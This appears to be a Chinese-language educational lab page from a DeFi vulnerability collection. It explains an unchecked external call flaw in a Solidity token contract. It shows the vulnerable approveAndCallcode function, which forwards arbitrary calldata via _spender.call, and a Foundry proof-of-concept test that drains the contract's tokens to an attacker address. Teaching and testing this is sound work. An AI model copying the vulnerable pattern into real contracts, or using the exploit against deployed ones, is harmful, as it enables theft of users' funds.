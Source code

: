 # 未经检查的外部调用——调用注入  
[UnsafeCall.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/UnsafeCall.sol)  

**名称：**  不安全的调用漏洞  
**描述：**  
在TokenWhale合约的approveAndCallcode函数中，存在一个漏洞允许执行带有任意数据的任意调用，从而导致潜在的安全风险和意外后果。  
该函数使用低级别的调用（_spender.call(_extraData)）来执行_spender地址的代码，而没有对提供的_extraData进行任何验证或检查。  
这可能导致意外行为、重入攻击或未经授权的操作。

本练习涉及到对合约进行低级别调用，其中输入和返回值未经检查。  
如果调用数据可控，就很容易引发任意函数执行 



**缓解措施：**   
尽量避免使用低级别的“call”。  

**参考**  
https://blog.li.fi/20th-march-the-exploit-e9e1c5c03eb9  


**TokenWhale 合约：**  
```
contract TokenWhale {
    address player;

    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    string public name = "Simple ERC20 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;

    function TokenWhaleDeploy(address _player) public {
        player = _player;
        totalSupply = 1000;
        balanceOf[player] = 1000;
    }

    function isComplete() public view returns (bool) {
        return balanceOf[player] >= 1000000; // 1 百万
    }

    event Transfer(address indexed from, address indexed to, uint256 value);

    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;

        emit Transfer(msg.sender, to, value);
    }

    function transfer(address to, uint256 value) public {
        require(balanceOf[msg.sender] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }

    event Approval(
        address indexed owner,
        address indexed spender,
        uint256 value
    );

    function approve(address spender, uint256 value) public {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
    }

    function transferFrom(address from, address to, uint256 value) public {
        require(balanceOf[from] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);
        require(allowance[from][msg.sender] >= value);

        allowance[from][msg.sender] -= value;
        _transfer(to, value);
    }

    /* 授权然后调用合约代码*/
    function approveAndCallcode(
        address _spender,
        uint256 _value,
        bytes memory _extraData
    ) public {
        allowance[msg.sender][_spender] = _value;

        bool success;
        //容易受到攻击的调用执行不安全的用户代码 
        (success, ) = _spender.call(_extraData);
        console.log("success:", success);
    }
}
```  


**如何测试：**  
forge test --contracts src/test/UnsafeCall.sol-vvvv  
```
// 测试不安全调用的函数
function testUnsafeCall() public {
    // 设置环境变量
    address alice = vm.addr(1);
    TokenWhaleContract = new TokenWhale();
    TokenWhaleContract.TokenWhaleDeploy(address(TokenWhaleContract));

    console.log(
        "TokenWhale balance:",
        TokenWhaleContract.balanceOf(address(TokenWhaleContract))
    );

    // Alice试图执行不安全的调用以从TokenWhaleContract转移资产
    console.log(
        "Alice tries to perform unsafe call to transfer asset from TokenWhaleContract"
    );

    // 将msg.sender更改为Alice地址
    vm.prank(alice);

    // Alice调用了approveAndCallcode函数，并传递了一个经过编码的数据，
    // 这个数据表示了对transfer函数的调用。
    TokenWhaleContract.approveAndCallcode(
        address(TokenWhaleContract),
        0x1337, // 不影响漏洞利用
        abi.encodeWithSignature(
            "transfer(address,uint256)",
            address(alice),
            1000
        )
    );

    // 检查漏洞利用是否成功
    assertEq(TokenWhaleContract.balanceOf(address(alice)), 1000);
    console.log("Exploit completed");

    // 记录最终余额
    console.log(
        "TokenWhale balance:",
        TokenWhaleContract.balanceOf(address(TokenWhaleContract))
    );
    console.log(
        "Alice balance:",
        TokenWhaleContract.balanceOf(address(alice))
    );
}

// 接收以太币的回退函数
receive() external payable {}
```  
**红色框：** 成功利用漏洞，成功掏空了TokenWhale合约。  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fef522203-1293-43f6-bf50-746d2a4b8457%2FUntitled.png?table=block&id=442bc8fe-4714-4112-a892-725b88a7b32e&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
